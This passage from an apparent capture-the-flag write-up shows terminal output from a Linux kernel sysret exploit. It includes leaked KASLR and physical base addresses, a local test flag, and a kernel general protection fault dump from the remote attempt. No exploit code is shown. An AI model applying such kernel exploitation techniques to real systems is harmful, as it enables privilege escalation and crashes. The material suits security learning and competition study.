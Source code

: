 
I tried running this locally and was able to the get the test flag:

```
ctf@corctf:~$ /sysret
KASLR base ffffffff81000000
PHYS base ffff888000000000
gsbase: 0xffff88813bc00000
...
/tmp/bad: line 1: : not found
corctf{test_flag}
ctf@corctf:~$
```

Now to try it on remote!

```
ctf@corctf:~$ chmod +x /tmp/exploit
ctf@corctf:~$ /tmp/exploit
KASLR base ffffffffb5c00000
PHYS base ffff8d9000000000
gsbase: 0xffff8d913bc00000
[   93.372874] general protection fault, maybe for address 0x54: 0000 [#1] PREEMPT SMP NOPTI
[   93.373374] CPU: 0 PID: 83 Comm: exploit Not tainted 6.3.4 #14
[   93.373717] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.2-debian-1.16.2-1 04/01/2014
[   93.374277] RIP: 0010:entry_SYSRETQ_unsafe_stack+0x3/0x6
[   93.374601] Code: 3c 25 d6 0f 02 00 48 89 c7 eb 08 48 89 c7 48 0f ba ef 3f 48 81 cf 00 08 00 00 48 81 cf 00 10 00 00 0f 22 df 58 5f 5c 0f 01 f8 <48> 0f 07 cc 66 66 2e 0f 1f 84 00 00 00 00 00 56 48 8b 74 24 08 48
[   93.375677] RSP: 0018:ffffffffb6c3b8e8 EFLAGS: 00010046
[   93.375988] RAX: 0000000000000054 RBX: 0000612f706d742f RCX: 8000000000000000
[   93.376409] RDX: 0000612f706d742f RSI: 0000612f706d742f RDI: 0000612f706d742f
[   93.376825] RBP: 0000612f706d742f R08: 0000612f706d742f R09: 0000612f706d742f
[   93.377248] R10: 0000612f706d742f R11: 0000000000000246 R12: 0000612f706d742f
[   93.377666] R13: 0000612f706d742f R14: 0000612f706d742f R15: 0000612f706d742f
[   93.378081] FS:  0000612f706d742f(0000) GS:ffff8d913bc00000(0000) knlGS:ffff8d913bc00000
[   93.378552] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   93.378881] CR2: 00007ffc8370b858 CR3: 0000000100ac4004 CR4: 0000000000770ef0
[   93.379292] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[   93.379712] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
[   93.380129] PKRU: 55555554
[   93.380290] Call Trace:
[   93.380438] Modules linked in:
[   93.380625] ---[ end trace 0000000000000000 ]---
[   93.380897] RIP: 0010:entry_SYSRETQ_unsafe_stack+0x3/0x6
[   93.381212] Code: 3c 25 d6 0f 02 00 48 89 c7 eb 08 48 89 c7 48 0f ba ef 3f 48 81 cf 00 08 00 00 48 81 cf 00 10 00 00 0f 22 df 58 5f 5c 0f 01 f8 <48> 0f 07 cc 66 66 2e 0f 1f 84 00 00 00 00 00 56 48 8b 74 24 08 48
[   93.382302] RSP: 0018:ffffffffb6c3b8e8 EFLAGS: 00010046
[   93.382606] RAX: 0000000000000054 RBX: 0000612f706d742f RCX: 8000000000000000
[   93.383027] RDX: 0000612f706d742f RSI: 0000612f706d742f RDI: 0000612f706d742f
[   93.383444] RBP: 0000612f706d742f R08: 0000612f706d742f R09: 0000612f706d742f
[   93.383857] R10: 0000612f706d742f R11: 0000000000000246 R12: 0000612f706d742f
[   93.384274] R13: 0000612f706d742f R14: 0000612f706d742f R15: 0000612f706d742f
[   93.384689] FS:  0000612f706d742f(0000) GS:ffff8d913bc00000(0000) knlGS:ffff8d913bc00000
[   93.385154] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   93.385496] CR2: 00007ffc8370b858 CR3: 0000000100ac4004 CR4: 0000000000770ef0
[   93.385915] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[   93.386333] DR3: 0000000000000000 DR6: 00000000fffe0ff0 DR7: 0000000000000400
[   93.386745] PKRU: 55555554
[   93.386907] note: exploit[83] exited with irqs disabled
[   93.387268] general protection fault
[   93.387485] general protection fault, maybe for address 0x56: 0000 [#2] PREEMPT SMP NOPTI
[   93.387958] CPU: 0 PID: 85 Comm: exploit Tainted: G      D            6.3.4 #14
```